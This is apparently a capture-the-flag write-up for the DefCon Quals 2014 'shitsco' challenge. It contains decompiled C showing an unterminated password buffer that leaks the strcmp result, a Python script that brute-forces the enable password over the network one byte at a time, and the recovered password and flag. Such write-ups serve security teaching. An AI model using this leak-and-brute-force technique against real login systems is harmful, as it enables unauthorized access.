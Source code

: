 ```yaml
---
layout: post
title: "DefCon Quals 2014 - shitsco"
date: 2014-05-23 14:10
comments: true
categories: reversing, bruteforce
author: stacks0n
---
```


## Analysis
We are basically provided with a Cisco IOS-like CLI:

```bash
stacks0n@ubuntu:/home/shitsco$ ~/Desktop/shitsco_c8b1aa31679e945ee64bde1bdb19d035 

 oooooooo8 oooo        o88    o8                                       
888         888ooooo   oooo o888oo  oooooooo8    ooooooo     ooooooo   
 888oooooo  888   888   888  888   888ooooooo  888     888 888     888 
        888 888   888   888  888           888 888         888     888 
o88oooo888 o888o o888o o888o  888o 88oooooo88    88ooo888    88ooo88   
                                                                       
Welcome to Shitsco Internet Operating System (IOS)
For a command list, enter ?
$ ?
==========Available Commands==========
|enable                               |
|ping                                 |
|tracert                              |
|?                                    |
|shell                                |
|set                                  |
|show                                 |
|credits                              |
|quit                                 |
======================================
Type ? followed by a command for more detailed information
$ ? enable
enable: Enables administrator access, with the correct password.
$ enable cisco
Nope.  The password isn't cisco
$ enable
Please enter a password: cisco
Nope.  The password isn't ciscp�
```

After spending some time reversing and playing on the CLI, a few key points:

* in enable mode, you can run a command to print the flag (stored in file on disk)
* to get into enable mode you need to know the password (stored on disk and read into a global variable)
* there is a global boolean for whether you are in enable mode or not
* you can get a leak of the stack when you type 'enable' without a password and let it ask you. if you password is 5+ chars, you'll notice some data leaked

## Reversing
Notice in the following code, they do not null terminate the password. When the password is wrong, the printf will leak stack data. Fortunately for us, the result of the strcmp() will be leaked. That will allow us to brute force the password.

```c
int __cdecl do_enable(const char **a1)
{
  char *v1; // ebx@2
  char user_password[32]; // [sp+18h] [bp-34h]@2
  int bMatch; // [sp+38h] [bp-14h]@3
  int v5; // [sp+3Ch] [bp-10h]@1

  v5 = *MK_FP(__GS__, 0x14);
  if ( *a1 )
  {
    v1 = user_password;
    strncpy(user_password, *a1, 32u);
  }
  else
  {
    v1 = user_password;
    __printf_chk(1, "Please enter a password: ");
    fflush(stdout);
    get_password_from_user(0, (int)user_password, 32, '\n');
  }
  bMatch = strcmp(g_enable_password, v1);
  if ( bMatch )
  {
    __printf_chk(1, "Nope.  The password isn't %s\n", v1);
  }
  else
  {
    g_enable_mode = 1;
    g_prompt = '#';
    puts("Authentication Successful");
  }
  sub_8049090(a1);
  return *MK_FP(__GS__, 0x14) ^ v5;
}
```

```c
unsigned int __cdecl get_password_from_user(int fd, char *dest, int size, char delim)
{
  unsigned int count; // ebx@1
  char byte_read; // [sp+1Fh] [bp-1Dh]@3

  count = 0;
  if ( size > 0 )
  {
    while ( read(fd, &byte_read, 1u) > 0 )
    {
      if ( byte_read != delim )
      {
        dest[count++] = byte_read;
        if ( count != size )
          continue;
      }
      return count;
    }
    count = 0xFFFFFFFF;
  }
  return count;
}
```

## Code

The result of strcmp() will either be 1 or -1, depending on whether s1 or s2 is
bigger. By filling the buffer will '\x01', and guessing one character at a time
from high to low, we will be able to determine the actual character when the leaked data byte changes.
```python
#!/usr/bin/env python

import socket

def read_until(s, delim='$'):
  line = ""
  while True:
    b = s.recv(1)
    if b == delim:
      break
    line += b
  return line

def try_enable(s, password):
  guess = 128
  while guess > 0:
    s.send("enable\n")
    read_until(s, ':')
    s.send(password + chr(guess) + (31-len(password))*'\x01')
    # find the first transition in which our guess
    # is not higher than the target
    if read_until(s, '$')[-2] != '\xff':
      password += chr(guess)
      s.send("enable " + password + "\n")
      print repr(read_until(s, '$'))
      return password
    guess -= 1

s = socket.socket()
port = 31337
s.connect(('shitsco_c8b1aa31679e945ee64bde1bdb19d035.2014.shallweplayaga.me', port))
done = False

# skip banner
read_until(s, '$')
password = ''
while True:
  password = try_enable(s, password)
  print password
s.close
```

## Solution
```bash
$ enable bruT3m3hard3rb4by
Authentication Successful
# ?
==========Available Commands==========
|enable                               |
|ping                                 |
|tracert                              |
|?                                    |
|flag                                 |
|shell                                |
|set                                  |
|show                                 |
|credits                              |
|quit                                 |
|disable                              |
======================================
Type ? followed by a command for more detailed information
# flag
The flag is: Dinosaur vaginas
```
